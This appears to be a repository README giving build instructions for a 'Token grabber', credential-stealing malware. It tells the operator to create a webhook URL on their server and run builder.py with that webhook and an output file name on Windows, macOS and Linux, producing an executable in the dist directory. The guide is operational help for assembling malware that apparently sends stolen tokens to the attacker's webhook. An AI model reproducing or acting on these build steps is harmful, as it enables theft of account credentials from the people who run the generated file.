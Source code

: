 # Build Guide for {Token grabber}
## Run the builder.py Script

Now that we have a configured, we can run the builder.py script.

To build you will need created earlier the webhook url.
To access it, head over to your new server's settings and click on the **"Intergrations"** tab. Then click on the **"Webhooks"** tab.

![image](https://imgur.com/fEIbIfb.png)

To Execute the builder.py script, you need to run the following command:

### Windows
```
.\venv\Scripts\python.exe builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### MacOS
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### Linux
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
![image](https://imgur.com/ntQNtM5.png)

Once the builder is done, you will find your generated file in the **dist** directory.
